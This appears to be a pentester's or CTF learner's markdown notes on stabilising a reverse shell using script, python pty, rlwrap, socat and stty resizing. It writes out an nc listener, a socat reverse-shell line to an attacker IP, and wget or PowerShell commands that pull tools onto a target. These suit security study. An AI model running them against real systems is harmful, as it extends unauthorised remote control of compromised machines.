 # shell_upgrades

## Technique 0: script
kind of like a poor version of python/rlwrap
stty does NOT behave nicely so it can cause display issues

> once your shell has landed; ONLY WORKS IF `script` is present on the target unix system
```
script /dev/null -c bash

explanation
    script      ; binary we run
    /dev/null   ; the log file location
    -c bash     ; the command we will be logging
```

my preference is to have a "fragile shell" but with rlwrap
the display issues script brings are NOT worth it
display issues cause too much lost information

my 'lost information' experience may be box/system specific to a single instance

> alternate 'script' upgrade
```sh
# catch the reverse shell
script -q bash
ctrl + Z 
stty raw -echo; fg 
export TERM=xterm
bash
# 2nd bash may not be needed
```


## Technique 1: python
    python -c 'import pty;pty.spawn("/bin/bash")' 
    export TERM=xterm -- this will give us access to term commands such as clear. 
    Ctrl + Z. (background the shell on attacker machine)
    stty raw -echo; fg 
    [LOCAL] stty -a  ; take note of row col
    [REV_SHELL] stty rows LOCAL_ROW columns LOCAL_COLS
    
Last 2 steps does two things: 
	first, it turns off our own terminal echo 
	(which gives us access to tab autocompletes, the arrow keys, and Ctrl + C). 
	It then foregrounds the shell, thus completing the process. 


## Technique 2: rlwrap
Useful for Windows Shell stabilization (Notoriously difficult)
Gives access to history, tab complete, arrow keys 
NO ACCESS TO CTRL+C BY DEFAULT

```sh
rlwrap nc -lvnp <port>
Ctrl+Z; stty raw -echo; fg  (gives access to ctrl+c)
```

## Technique 3: socat

only useful VS linux.
Syntax for Sending/Receiving is Unique to socat
serve a socat static compiled binary (no dependencies)

```cmd
Attacker: sudo python3 -m http.server 80    
Linux Target: wget <LOCAL-IP>/socat -O /tmp/socat
Windows Target: Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe
```

Note the windows command is an example of serving; 
socat will not work for our purposes on windows

Listener: socat TCP-L:\<port\> FILE:`tty`,raw,echo=0
Speaker: socat TCP:\<attacker-ip\>:\<attacker-port\> EXEC:"bash -li",pty,stderr,sigint,setsid,sane

-d -d  added to command will increase verbosity (good for learning)

Real world uses socat whenever possible; its possible to encrypt shell traffic
Replace above TCP with OPENSSL.
A bit involved, but worth learning NEXT.


## Change Terminal TTY Size

necessary for using progs which overwrite the screen (nano, vi, etc)
Terminal does this automatically with a regular shell;
must be manually done with a Reverse/Bind shell

-    Attacker: stty -a       (Take note of rows/cols information)
-    Target: stty rows    (info from attackbox)
-    Target: stty cols    (info from attackbox)


